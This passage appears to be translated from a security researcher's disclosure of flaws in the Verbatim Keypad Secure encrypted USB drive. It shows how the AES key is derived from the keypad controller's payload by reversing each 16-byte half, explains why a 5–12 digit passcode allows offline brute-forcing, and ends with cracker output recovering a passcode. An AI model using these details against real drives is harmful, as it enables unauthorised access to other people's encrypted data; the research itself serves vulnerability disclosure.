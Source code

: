 通过深入调试设备固件，我们确定了用于解密特殊块的 AES 密钥是键盘控制器发送到 USB-to-SATA 桥接控制器 INIC-3637EN 的 32 字节有效负载，这在之前的协议分析中有所描述。但是，INIC-3637EN 的 AES 引擎使用了一种特殊的字节顺序，其中前 16 个字节和后 16 个字节是颠倒的。

下面的 Python 代码演示了如何从键盘控制器通过 SPI 命令发送到 INIC-3637EN 的 32 字节有效负载中提取出实际的 AES 密钥：

```plain
AES_key = reversed(passcode_key[0:16]) + reversed(passcode_key[16:32])
```

由于用户认证信息存储在 SSD 上的一个特殊块中，并且已知通过整数哈希函数 hash32shift2002 从用户输入（密码）派生 AES 密钥的方法，因此可以对 Verbatim Keypad Secure 的基于密码的用户认证进行离线暴力破解攻击。由于只支持 5 到 12 位数字长的密码，有效密码的可能搜索空间相对较小。

因此，开发了名为`Verbatim Keypad Secure Cracker`的软件工具，它可以找到正确的密码，从而非法访问 Verbatim Keypad Secure USB 闪存驱动器的加密用户数据。

下面的输出示例性地展示了一次成功的暴力破解攻击。

> [https://web.archive.org/web/20071223173210/http:/www.concentric.net/~Ttwang/tech/inthash.htm](https://web.archive.org/web/20071223173210/http:/www.concentric.net/~Ttwang/tech/inthash.htm)
> 
> [https://www.verbatim-europe.co.uk/en/prod/verbatim-keypad-secure-usb-32-gen-1-drive-64gb-49428/](https://www.verbatim-europe.co.uk/en/prod/verbatim-keypad-secure-usb-32-gen-1-drive-64gb-49428/)
> 
> [https://www.verbatim-europe.co.uk/en/prod/verbatim-keypad-secure-usb-32-gen-1-drive-64gb-49428/](https://www.verbatim-europe.co.uk/en/prod/verbatim-keypad-secure-usb-32-gen-1-drive-64gb-49428/)

```plain
# ./vks-cracker /dev/sda
 █████   █████ █████   ████  █████████       █████████                               █████
░░███   ░░███ ░░███   ███░  ███░░░░░███     ███░░░░░███                             ░░███
 ░███    ░███  ░███  ███   ░███    ░░░     ███     ░░░  ████████   ██████    ██████  ░███ █████  ██████  ████████
 ░███    ░███  ░███████    ░░█████████    ░███         ░░███░░███ ░░░░░███  ███░░███ ░███░░███  ███░░███░░███░░███
 ░░███   ███   ░███░░███    ░░░░░░░░███   ░███          ░███ ░░░   ███████ ░███ ░░░  ░██████░  ░███████  ░███ ░░░
  ░░░█████░    ░███ ░░███   ███    ░███   ░░███     ███ ░███      ███░░███ ░███  ███ ░███░░███ ░███░░░   ░███
    ░░███      █████ ░░████░░█████████     ░░█████████  █████    ░░████████░░██████  ████ █████░░██████  █████
     ░░░      ░░░░░   ░░░░  ░░░░░░░░░       ░░░░░░░░░  ░░░░░      ░░░░░░░░  ░░░░░░  ░░░░ ░░░░░  ░░░░░░  ░░░░░
 ... finds out your passcode.

Verbatim Keypad Secure Cracker v0.5 by Matthias Deeg <matthias.deeg@syss.de> (c) 2022
---
[*] Found 4 CPU cores
[*] Reading magic sector from device /dev/sda
[*] Found a plausible magic sector for Verbatim Keypad Secure (#49428)
[*] Initialize passcode hash table
[*] Start cracking ...
[+] Success!
    The passcode is: 99999999
```
